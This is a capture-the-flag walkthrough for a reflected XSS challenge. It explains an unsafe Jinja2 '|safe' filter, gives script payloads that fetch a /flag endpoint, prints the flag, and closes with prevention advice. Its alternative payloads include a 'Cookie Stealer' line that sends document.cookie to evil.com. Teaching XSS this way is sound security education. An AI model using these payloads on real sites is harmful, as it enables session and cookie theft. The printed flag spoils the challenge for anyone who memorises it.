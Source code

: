 # Spirit Walkthrough

## Challenge Overview
**Difficulty**: Medium  
**Vulnerability**: Reflected XSS  
**Flag**: nhc{scr1pt3d_1llus10ns_sh4tt3r}

## Story Context
Hattori faces the Wall of Illusions, where messages can echo through the spirits if crafted with cunning.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/spirit`
2. Observe the message submission form

### Step 2: Understand the Vulnerability
The page reflects user input using Jinja2's `|safe` filter:
```html
<div class="message">
    <p>{{ reflected_message|safe }}</p>
</div>
```

### Step 3: Test Basic XSS
1. Submit a simple script: `<script>alert('XSS')</script>`
2. The page should execute the JavaScript

### Step 4: Craft Payload to Fetch Flag
1. Use XSS to make a request to `/flag` endpoint 
2. Capture the response and display it
3. Payload:
   ```html
   <script>
   fetch('/flag')
   .then(response => response.text())
   .then(data => alert(data));
   </script>
   ```

### Step 5: Execute and Capture Flag
1. Submit the payload in the message form
2. The JavaScript executes and shows an alert with the flag
3. Copy the flag: nhc{scr1pt3d_1llus10ns_sh4tt3r}

## Hints

### Hint 1
> The wall reflects your messages back to you. What if your message contained more than just words?

### Hint 2
> Look for hints on the page itself. There's a 💡 icon that might reveal important information.

### Hint 3
> The `/flag` endpoint returns the spirit flag directly. How can you make the page fetch it for you?

## Educational Notes

### What You Learned
- **Reflected XSS**: Malicious scripts executed in victim's browser
- **JavaScript Injection**: Using script tags to execute code
- **Fetch API**: Making HTTP requests from JavaScript
- **CSP Bypass**: Understanding Content Security Policy limitations

### Real-World Impact
- Session hijacking
- Cookie theft
- Phishing attacks
- Malware distribution

### Prevention
- Input sanitization
- Content Security Policy (CSP)
- Output encoding
- XSS protection headers
- Avoid `|safe` filter with user input

## Alternative Payloads

### Simple Alert
```
<script>alert('XSS')</script>
```

### Cookie Stealer
```
<script>
fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```

### Flag Fetcher (Advanced)
```
<script>
async function getFlag() {
    const response = await fetch('/flag');
    const flag = await response.text();
    alert(flag);
}
getFlag();
</script>
```

### Image-Based XSS
```
<img src=x onerror=alert('XSS')>
```

## Testing Tools

### Browser Console
```javascript
// Test basic XSS
document.write('<script>alert("XSS")</script>');
```

### XSS Payload Generators
- OWASP XSS Filter Evasion Cheat Sheet
- PortSwigger XSS cheat sheet

## Common Mistakes
- Forgetting to close script tags
- Not handling asynchronous operations
- Using blocked characters in CSP
- Not testing the payload in the correct context

## CSP Analysis
Current CSP allows:
- `script-src 'self' 'unsafe-inline'`
- This permits inline scripts for educational purposes

## Next Steps
Submit the fetched flag to unlock the Shadows challenge.
